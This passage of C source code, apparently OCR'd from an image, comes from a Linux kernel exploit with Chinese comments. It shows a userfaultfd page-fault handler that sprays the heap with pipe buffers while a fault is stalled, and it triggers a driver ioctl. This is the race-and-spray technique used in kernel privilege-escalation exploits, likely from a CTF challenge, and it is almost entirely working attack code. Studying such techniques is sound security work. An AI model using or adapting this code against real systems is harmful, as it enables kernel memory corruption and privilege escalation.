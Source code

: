 ```c
            exit(-1);
        }
        if (msg.event != UFFD_EVENT_PAGEFAULT)
        {
            printf("Unexpected event on userfaultfd\n");
            exit(-1);
        }
        printf("    UFFD_EVENT_PAGEFAULT event: \n");
        printf("flags = %" PRIx64 "; \n", msg.arg.pagefault.flags);
        printf("address = %" PRIx64 "\n", msg.arg.pagefault.address);

        // heap spray
        // 先 free 再申请
        for (int i = 0; i < 32; i++)
        {
            c2[i] = 'a';
        }
        for (int i = 0; i < 16; i++)
        {
            c2[32 + i] = 0;
        }
        c2[32] = 1;
        ioctl(fd, 65521, c2); // 奇怪 到了这里没有输出

        for (int i = 0; i < 50; i++)
        {
            pipe(pipe_fd[i]);
            write(pipe_fd[i][1], "aaaatest", 8);
        }

        uc.src = (unsigned long)pipe_buf;
        uc.dst = msg.arg.pagefault.address & ~(getpagesize() - 1);
        uc.len = 4096;
        uc.mode = 0;
        uc.copy = 0;
        ioctl(uffd, UFFDIO_COPY, &uc);
        break;
    }
}
void *page;
void registerUserfault(void *fault_page, void *handler)
{
    pthread_t thr;
    struct uffdio_api ua;
    struct uffdio_register ur;
    unsigned long long uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK); // Enable the close-on-exec flag for the new userfaultfd file descriptor; 非阻塞才能让双线程有效
    ua.api = UFFD_API;
    ua.features = 0;
    if (ioctl(uffd, UFFDIO_API, &ua) == -1)
    {
        printf("[-] ioctl-UFFDIO_API");
        exit(-1);
    }
    ur.range.start = (unsigned long)fault_page; // 我们要监视的区域
    ur.range.len = PAGE_SIZE;
    ur.mode = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &ur) == -1)
    { // 注册缺页错误处理，当发生缺页时，程序会阻塞，此时，我们在另一个线程里操作
        printf("[-] ioctl-UFFDIO_REGISTER");
        exit(-1);
    }
    // 开一个线程，接收错误的信号，然后处理
```